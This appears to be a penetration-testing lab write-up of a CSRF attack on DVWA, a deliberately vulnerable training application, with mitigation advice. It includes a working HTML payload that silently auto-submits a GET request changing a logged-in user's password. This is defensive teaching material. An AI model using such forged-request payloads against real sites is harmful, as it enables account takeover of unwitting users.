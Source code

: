 # 🚨 CSRF Attack on DVWA (GET Method) — Penetration Testing Report 🕵️‍♂️

## 🎯 Overview
 This report demonstrates a successful Cross-Site Request Forgery (CSRF) attack on the Damn Vulnerable Web Application (DVWA). The attack exploits the password change functionality via the GET method to change the user's password without their knowledge.

## 🎯 Target Details
* Application: Damn Vulnerable Web Application (DVWA)

* Vulnerability Type: CSRF

* Vulnerable Endpoint: /vulnerabilities/csrf/ (Password Change)

* HTTP Method: GET

* Security Level: Low (⚠️ intentionally weak for testing)


## ⚙️ Attack Description
At Low security level, DVWA lacks proper CSRF protections, allowing a malicious webpage to submit a crafted GET request to change the user’s password.

The attack relies on:

The user being logged in with a valid session cookie

A hidden form automatically submitting on page load, sending the password change request silently

## 🛠 Attack Setup & Execution
1. Preconditions:

User is authenticated

DVWA Security Level set to Low

2. Malicious HTML File (csrf-attack.html):

<!DOCTYPE html>
<html>
  <body onload="document.forms[0].submit()">
    <form action="http://localhost/DVWA/vulnerabilities/csrf/" method="GET">
      <input type="hidden" name="password_new" value="hacked123">
      <input type="hidden" name="password_conf" value="hacked123">
      <input type="hidden" name="Change" value="Change">
      <input type="submit" value="Submit">
    </form>
  </body>
</html>

![csrf attack.html](file:///C:/Users/moham/OneDrive/Desktop/csrf-attack.html.png)

3. Hosting the File:

The file was placed in the web server directory (e.g., /var/www/html/) to ensure the browser sends session cookies.

The file was accessed via http://localhost/csrf-attack.html.

4. Attack Execution:

* The logged-in user visits the malicious page.

* The form automatically submits, !silently changing the user’s password to hacked123.

![Pass Changed](file:///C:/Users/moham/OneDrive/Desktop/PassChanged.png)

## ✅ Proof of Concept
Directly visiting the URL below (while logged in) successfully changed the password:

The malicious csrf-attack.html also changed the password automatically without user interaction.

## 🛡 Mitigation Recommendations
* Implement CSRF tokens on all sensitive forms to prevent forged requests

* Use POST method instead of GET for sensitive operations like password changes

* Set cookies with proper SameSite=Strict or Lax attributes

* Increase DVWA security level to Medium or High in real environments

## 📝 Conclusion
This test clearly shows how missing CSRF protections pose serious risks to web applications. Proper implementation of anti-CSRF tokens and secure cookie policies is essential to prevent such attacks.

